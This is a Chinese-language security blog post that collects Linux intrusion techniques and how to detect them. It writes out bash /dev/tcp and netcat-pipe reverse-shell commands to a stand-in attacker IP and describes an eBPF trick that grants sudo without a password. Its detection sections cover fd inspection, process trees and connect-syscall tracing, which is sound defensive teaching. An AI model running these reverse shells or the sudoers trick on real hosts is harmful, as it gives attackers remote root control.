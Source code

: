 ```yaml
---
layout:     post
title:      Linux 安全对抗收集
subtitle:   安全对抗case及检测策略
date:       2024-10-06
author:     pandaychen
header-img:
catalog: true
tags:
    - Linux
---
```


##  0x00    前言
本文主要收集下主机入侵事件及原理

##  0x01    反弹 Shell
反弹shell，通常是攻击机监听在某个TCP/UDP端口（AS 服务端），目标机（受害机 AS 客户端）主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机，本质是把 `bash` OR `sh` 进程的输入输出重定向到 socket，在 socket 中获取 `stdin[0]`，`stdout[1]` 和 `stderr[2]` 输出到 socket（因为进程通信有较高的复杂性，所以 bash 的输入输出可能是一个 pipe）

反弹shell的方式较多（根据目标受害主机的安装环境确定），常用如下几种：

-   netcat
-   python
-   php
-   bash/sh

大多数的反弹 shell 都是借助重定向 socket 来和 bash 进程进行输入输出交互

####    利用 /bin/bash反弹shell（case1）

1、先启动 server（攻击机开启本地监听，假设攻击机外网为`1.2.3.4`）

```BASH
nc -lvv 9999
```

2、再启动 client（目标受害机主动连接攻击机）

```BASH
/bin/bash > /dev/tcp/1.2.3.4/9999 0>&1 2>&1 &
```

反弹成功后，`/bin/bash` 的文件描述符（`0/1/2`）会被重定向。server（攻击机） 侧可以控制 client（受害机） 侧的 `/bin/bash` 进程的 `0/1/2`

3、在攻击机上操作

```BASH
root@VM-16-15-ubuntu:~# nc -lvv 9999
Listening on 0.0.0.0 9999
Connection received on localhost 39870
ifconfig        #输入指令即可
docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ed:50:85:fc  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

####    利用 pipe 反弹 shell（case2）
利用pipe来实现：

```BASH
# input server 用于发送指令（攻击端）
nc -lvv 7777
# output server 用于接收执行结果
nc -lvv 8888

# client（受害机执行）
nc 1.2.3.4 7777 | /bin/bash | nc 1.2.3.4 8888 &
```

这样在攻击端`7777`就可以执行操作指令，在`8888`可以看到指令操作的结果

####    反弹shell的检测思路（受害机）
1、先检查进程的socket情况

对于case1，检查 `/proc/<pid>/fd`，查看反弹进程打开的 fd 是否建立 socket 连接

```BASH
root@VM-16-15-ubuntu:~# ls -al /proc/3923150/fd
total 0
dr-x------ 2 root root  0 Nov  1 16:57 .
dr-xr-xr-x 9 root root  0 Nov  1 16:56 ..
lrwx------ 1 root root 64 Nov  1 16:57 0 -> 'socket:[219665628]'
lrwx------ 1 root root 64 Nov  1 16:57 1 -> 'socket:[219665628]'
lrwx------ 1 root root 64 Nov  1 16:57 2 -> 'socket:[219665628]'
```

对于case2，bash 进程的输入输出都来自其他进程的 pipe（ `0/1` 都绑定到 pipe 非 socket），此情况需要追溯到上一级进程的输入输出继续排查—（不管做了多少层的 pipe，反弹 shell 的本质是将 server 的输入传递给 client 的 `bash`，肯定存在 socket 连接）

```BASH
root@VM-16-15-ubuntu:~/# ls -al /proc/1026073/fd
total 0
dr-x------ 2 root root  0 Nov  4 13:39 .
dr-xr-xr-x 9 root root  0 Nov  4 13:02 ..
lr-x------ 1 root root 64 Nov  4 13:39 0 -> 'pipe:[226852419]'
l-wx------ 1 root root 64 Nov  4 13:39 1 -> 'pipe:[226852421]'
lrwx------ 1 root root 64 Nov  4 13:39 2 -> /dev/pts/3
```

跟进程树继续跟踪上一级，发现 pipe 的进程建立了 socket 连接，存在反弹 shell 的风险
```bash
  │   │└─bash,3919934
  │   │  ├─bash,1026073
  │   │  ├─nc,1026072 127.0.0.1 7777
  │   │  └─nc,1026074 127.0.0.1 8888

root@VM-16-15-ubuntu:~/# ps aux|grep nc
root     1026067  0.0  0.0   3536  1216 pts/1    S+   15:19   0:00 nc -lvv 7777
root     1026070  0.0  0.0   3536  1184 pts/5    S+   15:19   0:00 nc -lvv 8888
root     1026072  0.0  0.0   3536  2144 pts/3    S    15:19   0:00 nc 127.0.0.1 7777
root     1026074  0.0  0.0   3536  2068 pts/3    S    15:19   0:00 nc 127.0.0.1 8888
root     1026129  0.0  0.0   6480  2236 pts/7    S+   15:19   0:00 grep --color=auto nc
root@VM-16-15-ubuntu:~/# ls -al /proc/1026072/fd
total 0
dr-x------ 2 root root  0 Nov  4 15:19 .
dr-xr-xr-x 9 root root  0 Nov  4 15:19 ..
lrwx------ 1 root root 64 Nov  4 15:19 0 -> /dev/pts/3
l-wx------ 1 root root 64 Nov  4 15:19 1 -> 'pipe:[227094095]'
lrwx------ 1 root root 64 Nov  4 15:19 2 -> /dev/pts/3
lrwx------ 1 root root 64 Nov  4 15:19 3 -> 'socket:[227093293]'
root@VM-16-15-ubuntu:~/# ls -al /proc/1026074/fd
total 0
dr-x------ 2 root root  0 Nov  4 15:19 .
dr-xr-xr-x 9 root root  0 Nov  4 15:19 ..
lr-x------ 1 root root 64 Nov  4 15:19 0 -> 'pipe:[227094097]'
lrwx------ 1 root root 64 Nov  4 15:19 1 -> /dev/pts/3
lrwx------ 1 root root 64 Nov  4 15:19 2 -> /dev/pts/3
lrwx------ 1 root root 64 Nov  4 15:19 3 -> 'socket:[227094117]'
```

2、检查进程链（进程的树状结构）

3、检测反连进程对外的CONNECT连接

```json
 {"time":1730373034,"cgroupid":75819,"ns":4026531836,"pid":3520734,"tid":3520734,"uid":0,"gid":0,"ppid":3518138,"pgid":3520734,"comm":"bash","pcomm":"bash","nodename":"VM-16-15-ubuntu","retval":0,"username":"root","exe":"/usr/bin/bash","syscall":"connect","ppid_argv":"-bash","pgid_argv":"-bash","pod_name":"-1","family":2,"dport":9999,"dip":"1.2.3.4","sport":56022,"sip":"127.0.0.1"}
```

##  0x02   bash相关

####    bash反弹

####    bash提权

##  0x03    WebShell
WebShell 是一种可执行 Shell 命令的脚本文件（常见的有 PHP等），可以通过 Web 应用程序执行，从而控制服务器。黑客利用 Web 应用程序漏洞将 WebShell 文件上传到受害主机上，并通过 WebShell 文件实现对受害主机的控制。攻击原理如下：

1.  攻击者利用 WebApp漏洞将 PHP WebShell 文件上传到目标服务器
2.  攻击者通过浏览器访问 PHP WebShell 文件，建立与 WebShell 文件的连接
3.  WebShell 文件进行身份认证，认证通过后，攻击者就可以执行 Shell 命令，进而控制目标服务器

通俗点说，如果通过webshell能找到一种方法让受害者服务器执行`/bin/bash > /dev/tcp/1.2.3.4/9999 0>&1 2>&1 &`，就可以使用反弹shell攻击拿到受害主机的shell了

##  0x04    提权漏洞

##  0x05    网络相关

####    异常外连检
基于ebpf机制的检测，思路是通过 `krobe/kretprobe/tracepoint` 等跟踪所有 IPv4 连接尝试，针对非保留地址的dest IP 匹配是否命中恶意IP库

典型的hook点有：
- `tracepoint/syscalls/sys_enter_connect`
- `tracepoint/syscalls/sys_exit_connect`

##  0x06    基于ebpf的恶意利用

1、使用 eBPF 添加 `sudo` 用户

它通过拦截 `sudo` 读取 `/etc/sudoers` 文件，并将第一行覆盖为 `<username> ALL=(ALL:ALL) NOPASSWD:ALL #` 的方式工作。通过这种方式欺骗了 `sudo`，使其认为用户被允许成为 `root`。其他程序如 `cat` 或 `sudoedit` 不受影响，所以对于这些程序来说，文件未改变，用户并没有这些权限。行尾的 `#` 确保行的其余部分被当作注释处理，因此不会破坏文件的逻辑

[bad-bpf](https://github.com/pathtofile/bad-bpf)

##  0x07  Linux Rootkit
Linux Rootkit特指以Linux内核模块（LKM）形式加载到操作系统中，从内核态实现更高权限的操作，或直接对内核态代码进行篡改，从而劫持整个系统正常程序的运行。借助Rootkit，黑客可以实现对任意目录、文件、磁盘内容、进程、网络连接与流量的隐藏、窃取和篡改，并提供隐蔽的后门可供黑客直接登录到受害服务器执行更多操作


##  0x08  其他

####  库文件劫持


##  0x09  参考
-   [反弹Shell，看这一篇就够了](https://xz.aliyun.com/t/9488?u_atoken=ba042e2abcd2eb75127d6e0d58f1fcba&u_asig=0a472f9017303729323367295e0040)
-   [HIDS 常见检测原理](https://segmentfault.com/a/1190000043496037?u_atoken=9d1b6e7ba6f45bfc74e3197aafdfacae&u_asig=1a0c65c917304505664322721e003d)
-   [如何优雅的隐藏你的 Webshell](https://zu1k.com/posts/security/web-security/hide-your-webshell/#%E7%9B%B4%E6%8E%A5%E6%89%A7%E8%A1%8C)
-   [全链路内存马系列之 ebpf 内核马](https://github.com/veo/ebpf_shell)
-   [一文详解Webshell](https://www.freebuf.com/articles/web/235651.html)
-   [Linux中基于eBPF的恶意利用与检测机制](https://www.cnxct.com/evil-use-ebpf-and-how-to-detect-ebpf-rootkit-in-linux/)
-   [通过chkrootkit学习如何在linux下检测RootKit](https://www.giantbranch.cn/2018/10/09/通过chkrootkit学习如何在linux下检测RootKit/)
-   [LKM Linux rootkit](https://github.com/f0rb1dd3n/Reptile)
-   [检测Linux Rootkit入侵威胁](https://help.aliyun.com/zh/security-center/user-guide/detect-linux-rootkit-intrusions)